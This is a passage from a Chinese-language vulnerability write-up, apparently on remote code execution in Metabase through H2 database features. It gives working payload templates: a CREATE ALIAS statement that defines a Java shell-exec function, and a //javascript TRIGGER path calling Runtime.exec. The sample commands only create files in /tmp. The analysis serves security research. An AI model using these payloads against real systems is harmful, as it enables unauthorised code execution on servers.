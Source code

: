 ![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzg0XHa6nx6hhia3rqqzGScRlUCJaQjebj6WxTWEd6usFEb5oiblQO7KBeQ/640?wx_fmt=png "")  
```
DROP ALIAS IF EXISTS sehll;CREATE ALIAS sehll AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "hello";}';CALL sehll ('touch /tmp/123')
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzgdSfUciaLB1icmjRFWBYIibtq5x3bll9G9p16nibJQkYNtVt86kL4fuWHtA/640?wx_fmt=png "")  
  
需要注意的是默认官方发布的 Docker 镜像中没用   
javc  
 命令，所以   
CREATE ALIAS  
  无法正常使用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzgjR6hppqHjwQ4yfvpPJoMZrNKdxTE0UzyExBY5k1agIjwialmCJBXrVg/640?wx_fmt=png "")  
  
但是该方式需要依赖 HTTP 服务，通常禁止向外部网络建立 HTTP 协议请求，所以这种方式在真实的攻击中发挥的作用就会小很多。  
### 4.2 TRIGGER  
  
H2 在解析   
init  
 参数时对   
CREATE TRIGGER  
 会由   
loadFromSource  
 做特殊处理，根据执行内容的开头来判断是否为需要通过   
javascript  
 引擎执行。如果以   
//javascript  
 开头就会通过   
javascript  
 引擎进行编译然后进行执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzgIHIMCpjgZuj5N5pgeFcIOEGAatGNCof1DMmjpQF5oYr3SH1zlx8l7g/640?wx_fmt=png "")  
  
我们就可以通过   
javascript  
 引擎来实现代码执行，不过该方式在 JDK 15 之后移除了默认的解析，但是有意思的是 Metabase 在项目中使用到了   
js  
 引擎技术。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzgbJrPAjI5cbqHcfPz80AfCAz5diam6eNiaPW8g1weo13IsibFEhrjcQEibw/640?wx_fmt=png "")  
  
最后我们即可构建   
javascript  
 引擎来构建代码执行，如：  
```
java.lang.Runtime.getRuntime().exec('touch /tmp/999')
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjLVsnYdd0PiaCzAr1V8cElzgRR6ZwggrTbspzMFgjM5Sia0mH0diavWdPtVFia6VuPbjXfwclLVLRtjpw/640?wx_fmt=png "")  
### 4.3 Define Class  
  